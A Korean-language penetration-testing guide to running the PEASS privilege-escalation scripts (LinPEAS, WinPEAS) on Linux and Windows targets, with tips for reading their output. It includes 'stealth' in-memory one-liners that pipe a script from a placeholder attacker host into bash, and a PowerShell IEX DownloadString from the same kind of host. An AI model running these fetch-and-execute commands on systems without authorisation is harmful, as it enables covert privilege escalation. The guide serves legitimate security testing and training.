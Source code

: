 

# PEASS (LinPEAS & WinPEAS) 활용 가이드

PEASS(Privilege Escalation Awesome Scripts SUITE)는 Linux와 Windows 시스템에서 권한 상승(Privilege Escalation) 경로를 자동으로 찾아주는 스크립트 모음입니다. 시스템의 설정 오류, 취약한 권한, 커널 취약점 등 다양한 정보를 종합적으로 분석하여 권한 상승 기회를 식별하는 데 매우 효과적입니다.

- **[PEASS GitHub Releases 링크](https://github.com/peass-ng/PEASS-ng/releases)**

---

### **1. LinPEAS (Linux Privilege Escalation Awesome Script)**

- **목적:** Linux 시스템의 권한 상승 벡터를 종합적으로 분석합니다. SUID/SGID 파일, Cron 작업, 서비스 권한, 커널 버전, 네트워크 설정 등 방대한 정보를 수집하여 색상으로 중요도를 표시해줍니다.

#### **다운로드 및 실행**
```bash(title="LinPEAS 다운로드 및 실행")
# 최신 버전의 linpeas.sh 다운로드
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

# 실행 권한 부여
chmod +x linpeas.sh

# 실행 (결과가 많으므로 파일로 리다이렉션 권장)
./linpeas.sh > linpeas_results.txt
```

#### **인메모리 실행 (스텔스)**
- 디스크에 파일을 남기지 않고 메모리에서 직접 실행하는 방법입니다. (자세한 내용은 `Linux 명령어 인코딩 및 실행 기법` 가이드 참고)

```bash(title="LinPEAS 인메모리 실행")
curl -s http://<attacker_ip>/linpeas.sh | bash
```

---

### **2. WinPEAS (Windows Privilege Escalation Awesome Script)**

- **목적:** Windows 시스템의 권한 상승 벡터를 종합적으로 분석합니다. 서비스 권한, 레지스트리 설정, 사용자 권한, 설치된 소프트웨어, 네트워크 설정 등 다양한 정보를 수집합니다.

#### **다운로드 및 실행**
```powershell(title="WinPEAS 다운로드 및 실행")
# 최신 버전의 winPEASany.exe 다운로드
# (파일 전송 가이드 참고하여 타겟에 업로드)

# 실행 (결과가 많으므로 파일로 리다이렉션 권장)
C:\Path\To\winPEASany.exe > winpeas_results.txt
```

#### **PowerShell을 이용한 인메모리 실행**
- `winPEAS.ps1` 스크립트 버전을 사용하여 PowerShell에서 직접 실행할 수 있습니다.

```powershell(title="WinPEAS PowerShell 인메모리 실행")
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/winPEAS.ps1')"
```

---

### **3. 결과 분석 팁**

- **색상 코드:** PEASS 스크립트들은 출력 결과에 색상을 사용하여 중요도를 표시합니다. 일반적으로 빨간색은 매우 중요하거나 직접적인 권한 상승 기회를 나타내고, 노란색은 잠재적인 취약점이나 추가 조사가 필요한 부분을 의미합니다.
- **키워드 검색:** 출력 파일에서 `[+]`, `!!!`, `VULNERABLE`, `HIGH` 등의 키워드를 검색하여 중요한 정보를 빠르게 찾을 수 있습니다.
- **수동 확인:** PEASS가 찾아낸 특정 항목(예: SUID 바이너리, 취약한 서비스)에 대해서는 해당 가이드(예: `SUID/SGID 파일`, `취약한 서비스 권한`)를 참고하여 수동으로 다시 한번 확인하고 공격을 시도하는 것이 좋습니다.




